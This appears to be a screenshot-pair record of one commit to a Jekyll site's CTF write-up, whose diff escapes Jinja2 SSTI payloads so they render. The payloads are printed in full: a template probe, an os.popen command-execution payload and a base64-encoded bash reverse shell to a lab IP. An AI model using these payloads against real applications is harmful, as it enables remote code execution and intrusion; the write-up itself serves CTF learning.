

Before and after one commit to p3ta00/p3ta00.github.io, a Jekyll site: the page built from _ctf/hacksmarter-odyssey.md, in a window 1280 px wide and 1400 px high, scrolled down 4187 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix SSTI payloads not rendering - escape Jinja2 syntax for Jekyll

````diff
--- a/_ctf/hacksmarter-odyssey.md
+++ b/_ctf/hacksmarter-odyssey.md
@@ -117,7 +117,7 @@ The template input field was tested for SSTI vulnerabilities.
 **Initial Test:**
 
 ```
-{{ 7*7 }}
+{% raw %}{{ 7*7 }}{% endraw %}
 ```
 
 **Result:** `49` - Confirmed Jinja2 SSTI vulnerability
@@ -127,7 +127,7 @@ The template input field was tested for SSTI vulnerabilities.
 **Command Execution Test:**
 
 ```python
-{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
+{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}{% endraw %}
 ```
 
 **Result:** `uid=1000(ghill_sa) gid=1000(ghill_sa) groups=1000(ghill_sa)`
@@ -139,7 +139,7 @@ The template input field was tested for SSTI vulnerabilities.
 Reverse shell payload (Base64 encoded to bypass filters):
 
 ```python
-{{ self.__init__.__globals__.__builtins__.__import__('os').popen('printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuMjAwLjIyLjEwOC80NDQ0IDA+JjEpICY=|base64 -d|bash').read() }}
+{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('printf KGJhc2ggPiYgL2Rldi90Y3AvMTAuMjAwLjIyLjEwOC80NDQ0IDA+JjEpICY=|base64 -d|bash').read() }}{% endraw %}
 ```
 
 The base64 decodes to:
````
